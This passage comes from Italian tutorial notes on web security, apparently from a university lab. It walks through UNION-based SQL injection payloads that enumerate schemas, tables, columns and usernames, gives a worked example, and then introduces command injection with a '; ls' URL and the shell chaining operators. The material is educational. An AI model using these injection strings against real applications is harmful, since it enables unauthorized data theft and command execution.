     - Scoprire le Tabelle: `' UNION SELECT NULL, NULL, table_name FROM information_schema.tables #`

    - Scoprire le Tabelle di uno Specifico Schema:`' UNION SELECT NULL, NULL, table_name FROM information_schema.tables WHERE table_schema = 'unibo' #`

    - Scoprire le Colonne di una Specifica Tabella:`' UNION SELECT NULL, NULL, column_name FROM information_schema.columns WHERE table_name = 'users' #`

    - Recuperare Dati da una Tabella: `' UNION SELECT NULL, NULL, username FROM users #`

### Esempio dettagliato
Supponiamo di voler visualizzare i nomi degli utenti nel database e che l'applicazione esegua questa query:
SELECT id, username, email FROM users WHERE id = 1;

- Scoprire il Numero di Colonne: `' UNION SELECT NULL #`. Se c'è un errore, proviamo con: `' UNION SELECT NULL, NULL, NULL #`

- Se non dà nessun errore allora la query originale ha 3 colonne.

- Scoprire gli Schemi: `' UNION SELECT NULL, NULL, schema_name FROM information_schema.schemata #`. Scopriamo uno schema chiamato unibo.

- Scoprire le Tabelle: `' UNION SELECT NULL, NULL, table_name FROM information_schema.tables WHERE table_schema = 'unibo' #`. Scopriamo tabelle chiamate users e guestbook.

- Scoprire le Colonne della Tabella users: `' UNION SELECT NULL, NULL, column_name FROM information_schema.columns WHERE table_name = 'users' #`. Scopriamo colonne chiamate id, username, email.

- Recuperare i Dati dalla Tabella users: `' UNION SELECT NULL, NULL, username FROM users #`. Otteniamo una lista di utenti: ale, Pippo

# Web Command injection
La Web Command Injection è una vulnerabilità di sicurezza in cui un'applicazione web accetta input dall'utente e lo utilizza all'interno di un comando di sistema senza un'adeguata sanitizzazione o convalida. Ciò consente ad un attaccante di eseguire comandi arbitrari sul server.

## Concatenazione di comandi

Se un parametro è utilizzato direttamente in un comando di sistema, potrebbe essere vulnerabile alla command injection. Il primo passo in un attacco di questo tipo è riuscire a concatenare comandi aggiuntivi.

Esempio di URL vulnerabile: `http://localhost:8000/?domain=>; ls`

In questo caso, il carattere ; viene utilizzato per concatenare comandi. Se il ; è filtrato, si possono provare altre concatenazioni:

- ; Separa due comandi. Esempio: command1; command2

- && Esegue command2 solo se command1 ha successo. Esempio: command1 && command2

- || Esegue command2 solo se command1 fallisce. Esempio: command1 || command2

- | Passa l'output di command1 come input a command2. Esempio: command1 | command2

- () Esegue i comandi in una subshell. Esempio: (command1; command2)
